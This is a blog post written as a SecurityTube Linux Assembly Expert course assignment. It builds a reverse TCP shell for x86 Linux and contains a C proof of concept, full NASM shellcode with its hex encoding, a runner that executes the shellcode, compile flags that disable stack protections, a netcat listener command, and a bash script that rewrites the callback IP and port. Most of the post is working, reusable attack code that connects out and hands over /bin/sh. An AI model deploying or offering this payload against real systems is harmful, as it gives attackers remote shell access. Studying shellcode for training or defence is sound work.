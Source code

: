 ```yaml
---
comments: true
date: 2014-04-04
layout: blog
title: 'SLAE Assignment 2: Reverse Bind TCP Shellcode'
category: blog
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the second of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a shellcode that reverse connect to a configured ip and port;
	
  2. The shellcode must execute /bin/sh on successful connection;
	
  3. IP and port number should be easily configurables

The difference between this assignment and the [previous one](http://www.paolostivanin.com/blog/2014/04/03/slae-assignment-1-bind-tcp-shellcode/) is that in the first assignment the shellcode "is a server" so we connect to it using netcat and then a shell is executed and "bound" to the **client terminal** while in this one the shellcode "is a client" so we need netcat running in listen mode on the configured ip and port and after a successful connection a shell **is bound to the server terminal**.

First of all i made a proof of concept of a program that connect to a configured ip (192.168.1.167) and port (7500) and execute /bin/sh on successful connection. I used dup2 to makes 0, 1 and 2 (stdin, stdout and stderr) be the copy of fd.

```c    
#define STDIN 0
#define STDOUT 1
#define STDERR 2

int main(void){
	int fd;
	struct sockaddr_in server_addr;
	char *argv[] = { "/bin/sh", NULL };

	server_addr.sin_family = AF_INET;
	server_addr.sin_port = htons(7500);
	server_addr.sin_addr.s_addr = inet_addr("192.168.1.167");

	fd = socket(AF_INET, SOCK_STREAM, 0);

	connect(fd, (struct sockaddr *)&server_addr, 16);

	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
	dup2(fd, STDIN);
	dup2(fd, STDOUT);
	dup2(fd, STDERR);

	execve(argv[0], &argv[0], NULL);

	return 0;
}
```

As you can see in the above PoC, in our shellcode we'll need these syscall:

  1. two `sys_socketcall(int call, unsigned long *args)` where int call will be `SYS_SOCKET` and `SYS_CONNECT` according to `/usr/include/linux/net.h`;
	
  2. three `sys_dup2(int oldfd, int newfd)`;
	
  3. one `sys_execve(char *filename, char *argv[], char *envp[])` where both `*argv[]` and `*envp[]` must be null terminated;

Below there is the complete shellcode:

```nasm
;Description:	Assignment #2 (Reverse_Shell_Bind_TCP, 79 bytes)
;Shellcode:		\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80
;Author: 		Paolo Stivanin <https://github.com/polslinux>
;SLAE ID:		526

global _start
section .text
_start:
	;socket(): sys_socketcall(int call, unsigned long *args)
	;eax -> sys_socketcall
	;ebx -> SYS_{SOCKET(1),BIND(2),CONNECT(3),LISTEN(4),ACCEPT(5),...}
	;ecx -> args(AF_INET{/usr/include/bits/socket.h -> 2}, SOCK_STREAM{/usr/include/bits/socket_type.h -> 1}, 0)
	xor edx,edx
	xor ebx,ebx
	push BYTE 0x66 	;sys_socketcall
	pop eax
	inc ebx			;SYS_SOCKET
	push edx		;0
	push BYTE 1 	;SOCK_STREAM
	push BYTE 2		;AF_INET
	mov ecx,esp
	int 0x80
	xchg esi,eax

	;connect(): sys_socketcall(int call, unsigned long *args)
	;eax -> sys_socketcall
	;ebx -> SYS_CONNECT
	;ecx -> args(sockfd{esi}, {sa_family{2},sin_port{7500},sin_address{192.168.1.167}}, 16)
	mov BYTE al,0x66
	inc ebx
	inc ebx					;SYS_CONNECT
	push DWORD 0xa701a8c0	;192.168.1.167
	push WORD 0x4c1d		;port 7500
	push WORD 2				;AF_INET
	mov ecx,esp
	push BYTE 16
	push ecx
	push esi
	mov ecx,esp
	int 0x80

	;dup2 sys_dup2(oldfd, newfd{0[stdin],1[stdout],2[stderr]})
	mov ebx,esi
	push BYTE 2
	pop ecx
lp:	mov BYTE al,0x3f
	int 0x80
	dec ecx
	jns lp			;SF=0 positive, SF=1 negative. JNS (jump-if-not-sign) will loop while SF=0. When SF is set we reach a negative value so the loop stops.		

	;execve /bin/sh
	mov BYTE al,11
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx,esp
	push edx
	mov edx,esp
	push ebx
	mov ecx,esp
	int 0x80
```

I also used [libemu](http://libemu.carnivore.it/) and dot to produce a graph of the execution flow of the shellcode:

[![graph_assign2]({{ site.baseurl }}/images/2014/04/graph_assign2-601x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign2.png)

To assemble, link and get the hex shellcode I used the[ same script of Assignment 1](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/alg-shell.sh).

Before executing the program the C source file must be updated with the newest shellcode:

```c    
/* Template for running shellcode
 * Author: Paolo Stivanin <https://github.com/polslinux>
 * SLAE Student ID: 526
 */

#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = \
"\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80";

int main(void){
	printf("%zu\n", strlen(shellcode));
	int (*ret)() = (int(*)())shellcode;
	ret();
	return 0;
}
```

Now it's time to compile the file with gcc -fno-stack-protector -z execstack main.c -o Reverse_Shell_Bind_TCP (or with [this](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/compile_gcc.sh) script) and then:

  1. open a terminal and type nc -v -l -p 7500
	
  2. execute Reverse_Shell_Bind_TCP

**[![ass2]({{ site.baseurl }}/images/2014/04/ass2-1024x575.png)]({{ site.baseurl }}/images/2014/04/ass2.png)**

The last point of this assignment ask to provide an easily way to configure the ip address and the port number. To accomplish this request I developed this small script:

```sh   
#!/bin/bash

#Description:	Assignment #2 (Reverse_Shell_Bind_TCP, configure ip and port)
#Author: 		Paolo Stivanin <https://github.com/polslinux>
#SLAE ID:		526

if [ -z "$1" ]; then
	echo "Usage: $0 <elf-file>"
	exit -1
fi

oldip=$(od -t x1 $1|grep -E -o "43 68.{0,12}"|sed 's/\ //g'|sed 's/^.\{4\}//g')
hexoldip=$(printf '%s' $oldip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')

oldport=$(od -t x1 $1|grep -o -P "66 68.{6}"|sed 's/\(......\)//g'|sed 's/\ //g')
hexoldport=$(printf '%s' $oldport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')

echo "[?] Write IP in dotted format (eg 192.168.1.167): "
read dotip
hexip=$(printf '%02x' $(echo ${dotip//./ }))

echo "[?] Write port number: "
read port
hexport=$(printf '%x' $port)

echo "[+] HEX code of choosed IP: $hexip"
echo "[+] HEX code of choosed port: $hexport"

echo "[+] Updating $1 elf..."
newport=$(printf '%s' $hexport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')
sed -i "s/\x66\x68$hexoldport/\x66\x68$newport/g" $1
newip=$(printf '%s' $hexip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')
sed -i "s/\x43\x68$hexoldip/\x43\x68$newip/g" $1

echo "[+] All done :)"
```

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
